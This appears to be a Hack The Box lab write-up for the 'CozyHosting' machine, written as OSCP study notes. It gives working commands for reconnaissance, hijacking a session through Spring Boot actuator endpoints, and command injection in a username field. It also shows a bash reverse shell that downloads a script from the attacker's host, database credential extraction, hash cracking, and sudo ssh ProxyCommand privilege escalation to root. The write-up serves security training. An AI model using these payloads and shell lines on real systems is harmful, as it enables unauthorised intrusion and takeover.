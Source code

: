 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
## 🔍 Reconnaissance

### ⚛️ Nmap Scanning

```bash
nmap -p- --min-rate 10000 10.10.11.230
```

```
nmap -p 22,80 -sCV 10.10.11.230
```

- Open ports: **22 [SSH](SSH)**, **80 [HTTP](HTTP)**
- Web server: nginx 1.18.0
- Redirect to `cozyhosting.htb` confirms host-based routing

### 🌐 Website Analysis

- Login page sets `JSESSIONID` — confirms Java-based backend
- Site has a Spring Boot default error page on 404

### 🔮 Directory Fuzzing

```bash
feroxbuster -u http://cozyhosting.htb
```

```bash
feroxbuster -u http://cozyhosting.htb -w /opt/SecLists/Discovery/Web-Content/spring-boot.txt
```

- Interesting routes:
    - `/actuator` endpoints (e.g., `/mappings`, `/env`, `/sessions`)
    - `/admin`, `/executessh`, `/addhost`

## 🤖 Shell as `app`

```bash
curl -s http://cozyhosting.htb/actuator/mappings | jq .
```

### 💰 Session Hijacking

- `GET /actuator/sessions` leaks session IDs
- Use cookie in browser dev tools to hijack `kanderson`'s session

### ⚒️ Command Injection via `/executessh`

- POST request to `/executessh` with hostname and username
- Injection through username using `${IFS}` or brace expansion:

```bash
username=0xdf;{ping,-c,1,10.10.14.6};#
```

- Verified ICMP echo via `tcpdump`

### 🛠️ Reverse Shell

1. Serve a reverse shell script:

```bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

2. Use `curl` from target to download:

```bash
curl http://10.10.14.6/rev.sh -o /tmp/rev.sh
```

3. Trigger execution:
    

```bash
bash /tmp/rev.sh
```

4. Catch shell on listener:

```bash
nc -lnvp 443
```

## 👤 Shell as `josh`

### 🔎 Enumerate Java App

- Found `cloudhosting-0.0.1.jar` running under Java
- Unzipped and extracted `application.properties`

```bash
grep -r password .
```

- Credentials:
    
    - DB: postgres / `Vg&nvzAQ7XxR`
        

### 🔢 Postgres DB Access

```bash
PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
```

- Found `users` table with bcrypt password hashes
    

### 🔒 Hash Cracking

```bash
hashcat -m 3200 -a 0 -o cracked.txt hashes rockyou.txt
```

- Cracked admin hash: `manchesterunited`
    

### ☕ User Pivot

```bash
su - josh  # or
ssh josh@cozyhosting.htb
```

- Read `/home/josh/user.txt`
    

## 🕵️‍♂️ Privilege Escalation to Root

### 🗜️ Sudo Permission

```bash
sudo -l
```

- Can run `/usr/bin/ssh` as root
    

### 🔀 Exploiting ProxyCommand

```bash
sudo ssh -o ProxyCommand='touch /tmp/owned' x
sudo ssh -o ProxyCommand='cp /bin/bash /tmp/rootbash' x
sudo ssh -o ProxyCommand='chmod 6777 /tmp/rootbash' x
/tmp/rootbash -p
```

- Got root shell!
    
- Read `/root/root.txt`
    

---

## 🔧 Tools Used

- `nmap`
    
- `feroxbuster`
    
- `curl`, `jq`
    
- `Burp Suite`
    
- `hashcat`
    
- `nc`, `tcpdump`
    
- `jd-gui`
    
- `psql`
    

## 📓 Takeaways

- Java Spring Boot is **leaky** with actuator endpoints ⚡
    
- **Session hijacking** via `/actuator/sessions`
    
- **Command injection** via user input using `${IFS}` and brace expansion
    
- `ssh -o ProxyCommand=` is powerful for **root privilege escalation**
    

## 🔗 References

- [Spring Boot Actuator docs](https://docs.spring.io/spring-boot/docs/current/actuator-api/html/)
    
- [GTFObins: ssh](https://gtfobins.github.io/gtfobins/ssh/)
    
- [HackTricks: Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
    
- [jd-gui Java decompiler](https://github.com/java-decompiler/jd-gui/releases)